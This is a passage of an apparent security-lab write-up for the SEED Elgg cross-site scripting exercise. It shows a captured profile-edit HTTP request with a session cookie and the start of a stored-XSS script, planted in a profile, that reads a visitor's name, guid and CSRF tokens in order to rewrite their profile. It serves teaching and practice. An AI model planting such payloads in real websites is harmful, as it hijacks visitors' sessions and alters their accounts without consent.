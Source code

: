 contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Then edit Samy's profile and figure out his <code>guid</code> as 47</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<p dir="auto">Now we want to modify the <code>about me</code> module in the profile of someone as <code>"modified by Samy"</code> if he/she visits Samy's profile page. Save the code below as Samy's profile:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span> <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>"<span class="pl-kos">&gt;</span>
  <span class="pl-smi">window</span><span class="pl-kos">.</span><span class="pl-en">onload</span> <span class="pl-c1">=</span> <span class="pl-k">function</span> <span class="pl-kos">(</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
    <span class="pl-c">//JavaScript code to access user name, user guid, Time Stamp __elgg_ts</span>
    <span class="pl-c">//and Security Token __elgg_token</span>
    <span class="pl-k">var</span> <span class="pl-s1">userName</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;name="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">name</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">guid</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;guid="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span><span class="pl-kos">;</span>